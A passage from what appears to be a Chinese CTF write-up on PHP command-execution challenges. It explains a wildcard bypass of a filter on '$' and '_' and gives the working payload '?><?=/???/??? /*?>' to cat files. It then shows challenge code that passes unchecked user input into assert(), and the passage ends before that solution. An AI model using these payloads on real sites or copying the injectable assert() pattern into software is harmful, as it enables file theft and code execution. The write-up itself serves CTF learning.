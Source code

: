 最主要的区别就是过滤了**$**和**_**，也就是说无法使用变量符号$了。

这时候可以考虑采用**通配符**绕过。

通配符有点像正则表达式，有自己的匹配规则：

| 字符 | 解释 |
| * | 匹配任意长度任意字符 |
| ? | 匹配任意单个字符 |
| [list] | 匹配指定范围内(list)任意单个字符，也可以是单个字符组成的集合 |
| [^list] | 匹配指定范围外的任意单个字符或字符集合 |
| [!list] | 同[^list] |
| {str1,str2,...} | 匹配str1或者str2或者更多字符串，也可以是集合 |

所以构造一下通配符就是
```php
/???/??? /*
```

因为过滤了变量符号，没法通过上面那种方法来执行了。但是，可以通过闭合PHP标记来执行，
也就是：?><?=/???/??? /*?>（/bin/cat /*）。

所以本题的
```php
payload为：?code=?><?=/???/??? /*?>
```
具体解法可以参照此篇文章的前两道题目：
https://www.jianshu.com/p/ecc2414ec110

### 命令执行漏洞

#### assert()函数引起的命令执行

assert函数的参数为字符串时，会将字符串当做PHP命令来执行。

例如：assert('phpinfo()')相当于执行<?php phpinfo() ?>

以一道题目为例：

本题目中题目文件夹下放置了一个隐藏的flag文件。

```php
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if($_GET['file'] === "flag"){
        highlight_file("flag.php");
    }else{
        $page = $_GET['file'];
    }
} else {
    $page = "./flag.php";
}

assert("file_exists('$page')");
?>
```
